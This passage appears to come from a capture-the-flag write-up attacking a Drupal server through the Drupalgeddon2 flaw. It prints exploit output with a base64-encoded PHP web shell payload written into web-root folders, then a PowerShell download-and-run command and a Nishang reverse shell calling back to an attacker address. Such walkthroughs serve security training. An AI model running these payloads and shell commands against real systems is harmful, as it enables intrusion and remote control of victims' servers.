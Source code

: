     [*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
    [+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ZhoePAwixyS4fgsUjDewohxgu6fjhuZvkuZ-7g1o5Ow"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ZhoePAwixyS4fgsUjDewohxgu6fjhuZvkuZ-7g1o5Ow"}}}]
    [!] Target is NOT exploitable. No write access here!
    [*] Testing: File Write To Web Root (./sites/default/)
    [*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./sites/default/s.php
    [+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"A0vSSq_CrSQFs5fhTMcTp4kmAIPC3kngzkEoGUcfU68"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"A0vSSq_CrSQFs5fhTMcTp4kmAIPC3kngzkEoGUcfU68"}}}]
    [!] Target is NOT exploitable. No write access here!
    [*] Testing: File Write To Web Root (./sites/default/files/)
    [*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./sites/default/files/s.php
    [+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ihPSnSsmU8uU3SKBtuN2qCcnNQA1Ha9CqKpMiVhINfs"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ihPSnSsmU8uU3SKBtuN2qCcnNQA1Ha9CqKpMiVhINfs"}}}]
    [!] Target is NOT exploitable. No write access here!
    --------------------------------------------------------------------------------
    [!] FAILED to find writeable folder
    [*] Dropping back to ugly shell...
    drupalgeddon2>> whoami
    nt authority\iusr



It turns out there's also an [updated
version](https://github.com/dreadlocked/Drupalgeddon2) on GitHub, and it
works out of the box (and doesn't print some annoying debug
information).

#### Shell - Nishang

I can upgrade this to a
[Nishang](https://github.com/samratashok/nishang) shell by grabbing a
copy of `Invoke-PowerShellTcp.ps1`, adding a call to the function to the
end, `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443`,
and then serving that directory with `python3 -m http.server 80`. I'll
also open a `nc` listener on port 443.

Then I give this command to the Drupalgeddon2 shell:



    drupalgeddon2>> powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')
